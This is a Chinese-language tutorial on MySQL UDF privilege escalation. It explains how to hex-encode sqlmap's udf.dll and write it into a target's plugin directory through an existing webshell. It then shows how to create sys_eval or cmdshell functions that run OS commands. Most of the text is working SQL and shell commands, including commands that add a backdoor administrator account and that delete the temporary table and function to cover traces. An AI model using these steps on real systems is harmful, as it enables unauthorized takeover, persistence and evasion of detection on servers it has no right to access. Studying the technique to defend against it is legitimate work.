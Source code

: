 # slmap udf 提权原理

> 原文：[http://book.iwonder.run/Tools/Sqlmap/2.html](http://book.iwonder.run/Tools/Sqlmap/2.html)

## 0x01-udf 是什么？

udf = 'user defined function'，即‘用户自定义函数’。是通过添加新函数，对 MYSQL 的功能进行扩充，性质就象使用本地 MYSQL 函数如 abs()或 concat()。udf 在 mysql5.1 以后的版本中，存在于‘mysql/lib/plugin’目录下，文件后缀为‘.dll’，常用 c 语言编写。

## 0x02-如何使用 udf?

假设我的 udf 文件名为‘udf.dll’，存放在 Mysql 根目录(通过 select @@basedir 可知)的‘lib/plugin’目录下。在 udf 中，我定义了名为 sys_eval 的 mysql 函数，可以执行系统任意命令。如果我现在就打开 mysql 命令行，使用 select sys_eval('dir');的话，系统会返回 sys_eval()函数未定义。因为我们仅仅是把‘udf.dll’放到了某个文件夹里，并没有引入。类似于面向对象编程时引入包一样，如果没有引入包，那么这个包里的类你是用不了的。

不要慌，看看实例用法：

```
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; 
```

只有两个变量，一个是 function_name（函数名），我们想引入的函数是 sys_eval。还有一个变量是 shared_library_name（共享包名称），即‘udf.dll’。

至此我们已经引入了 sys_eval 函数，下面就是使用了。

这个函数用于执行系统命令，用法如下：

```
select sys_eval('cmd command'); 
```

## 0x03-使用 udf 提权

现在我们已经知道了 udf 是什么，以及如何引入 udf。下面我们要关注的就是提权了。其实到这里，提权已经结束了，因为对于 sys_eval()函数，其中的指令是直接以管理员的权限运行的，所以这也就是最高权限了。

下面来整理一下思路：

### 1、将 udf 文件放到指定位置（Mysql>5.1 放在 Mysql 根目录的 lib\plugin 文件夹下）

### 2、从 udf 文件中引入自定义函数(user defined function)

### 3、执行自定义函数

先看第一步，拿到一个网站的 webshell 之后，在指定位置创建 udf 文件。如何创建？先别忘了，现在连源 udf 文件都没有。sqlmap 中有现成的 udf 文件，分为 32 位和 64 位，一定要选择对版本，否则会显示：Can't open shared library 'udf.dll'。获取 sqlmap 的 udf 请看链接：MySQL 利用 UDF 执行命令

然后将获得的 udf.dll 文件转换成 16 进制，一种思路是在本地使用 mysql 函数 hex：

```
SELECT hex(load_file(0x433a5c5c55736572735c5c6b61316e34745c5c4465736b746f705c5c6c69625f6d7973716c7564665f7379732e646c6c)) into dumpfile 'C:\\Users\\ka1n4t\\Desktop\\gg.txt'; 
```

load_file 中的十六进制是 C:\Users\ka1n4t\Desktop\lib_mysqludf_sys.dll 此时 gg.txt 文件的内容就是 udf 文件的 16 进制形式。

接下来就是把本地的 udf16 进制形式通过我们已经获得的 webshell 传到目标主机上。

```
1.CREATE TABLE udftmp (c blob); //新建一个表，名为 udftmp，用于存放本地传来的 udf 文件的内容。
2\. INSERT INTO udftmp values(unhex('udf 文件的 16 进制格式')); //在 udftmp 中写入 udf 文件内容
3\. SELECT c FROM udftmp INTO DUMPFILE 'H:\\PHPStudy\\PHPTutorial\\MySQL\\lib\\plugin\\udf.dll'; //将 udf 文件内容传入新建的 udf 文件中，路径根据自己的@@basedir 修改
//对于 mysql 小于 5.1 的，导出目录为 C:\Windows\或 C:\Windows\System32\ 
```

上面第三步，mysql5.1 以上的版本是默认没有 plugin 目录的，网上有说可以使用 ntfs 数据流创建：

```
select test into dumpfile 'H:\\PHPStudy\\PHPTutorial\\MySQL\\lib\\plugin::$INDEX_ALLOCATION'; 
```

但是我本地测试一直没有成功。后来又在网上看了很多，都是用这种方法，看来是无解了。在 t00ls 上也有人说数据流从来没有成功过，所以说 mysql5.1 以上的提权能否成功还是个迷。 为了演示，在这里我是手工创建了个 plugin 目录(ps: 勿喷啦，我用的 phpstudy 环境，重新安装一个 mysql 的话有可能会冲突，所以就没搞，毕竟原理都一样)。

继续，到这儿如果没有报错的话就说明已经在目标主机上成功生成了 udf 文件。下面要导入 udf 函数：

```
1\. DROP TABLE udftmp; //为了删除痕迹，把刚刚新建的 udftmp 表删掉
2\. CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; //导入 udf 函数
导入成功的话就可以使用了： 
```

```
SELECT sys_eval('ipconfig');
返回网卡信息 
```

附几个常用的 cmd 指令，用于添加一个管理员用户：

```
net user ka1n4t ka1n4t~!@ /add //添加新用户：ka1n4t，密码为 ka1n4t~!@
net localgroup administrators ka1n4t /add //将 ka1n4t 添加至管理员分组 
```

## 小节

### 1、提权原理：

利用了 root 高权限，创建带有调用 cmd 的函数的 udf.dll 动态链接库

### 2、数据库版本为 5.0 以下的：

如果是 win 2000 的服务器，我们则需要将 udf.dll 文件导出到 C:\Winnt\udf.dll 下。

如果是 win2003 服务器，我们则要将 udf.dll 文件导出在 C:\Windows\udf.dll 下。

### 3、数据库版本为 5.1 以上的：

我们则需要将 dll 文件导出到 mysql 安装目录的 lib\plugin\ 下，才能创建自定义函数。注：如果没有 plugin 目录，我们可以进行手动创建！

### 4、udf 提权的两种姿势

1：通过大马的 MySQL 提权功能，成功导出 udf.dll 文件后，我们就可以直接在命令框输入 cmd 命令，来执行提权操作。注：在此之前，我们应执行版本查看语句，来确认当前 MySQL 的版本信息！

```
net user secist secist.com /add

net localgroup administrators secist /add 
```

2：直接在目标服务器上传 udf.php 此类的提权脚本提权。

方法是一样的，先导出 dll 文件到正确位置。

![image](img/7c2bd35b24e4cff7622e43fe088d8126.png)

再在自定义 SQL 语句执行框内，执行以下命令，来创建调用函数并进行提权！

```
1\. create function cmdshell returns string soname ‘udf.dll’;                创建 cmdshell 调用函数
2\. select cmdshell(‘net user secist secist.com /add’);                           添加用户
3\. select cmdshell(‘net localgroup administrators secist /add’);           将用户加到管理组
4\. drop function cmdshell;                                                                      删除函数
5\. delete from mysql.func where name='cmdshell';                                 删除函数 
```

